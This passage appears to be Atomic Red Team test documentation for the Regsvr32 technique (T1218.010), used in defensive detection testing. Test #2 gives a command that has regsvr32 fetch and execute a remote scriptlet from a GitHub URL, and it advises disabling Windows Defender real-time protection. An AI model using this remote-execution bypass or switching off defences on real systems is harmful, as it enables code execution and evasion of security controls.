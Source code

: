 


<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** c9d0c4ef-8a96-4794-a75b-3d3a5e6f2a36





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to hosted sct file | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll
```






<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 08ffca73-9a3d-471a-aeb0-68b4aa3ab37b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | path | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|

